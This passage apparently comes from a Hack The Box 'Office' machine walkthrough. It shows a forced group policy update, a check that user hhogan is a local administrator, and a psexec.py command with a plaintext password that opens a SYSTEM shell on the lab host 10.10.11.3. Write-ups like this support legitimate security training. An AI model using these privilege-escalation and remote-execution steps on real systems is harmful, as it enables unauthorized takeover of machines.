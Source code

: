 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-69.png)

We will update windows group policy setting:

`gpupdate /force`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-70.png)

We can verify that user **hhogan** is in the administrators group:

`net localgroup Administrators`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-71.png)

Using **psexec**, we now have spawned interactive shell as the system:

`psexec.py HHogan:H4ppyFtW183#@10.10.11.3`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-72.png)
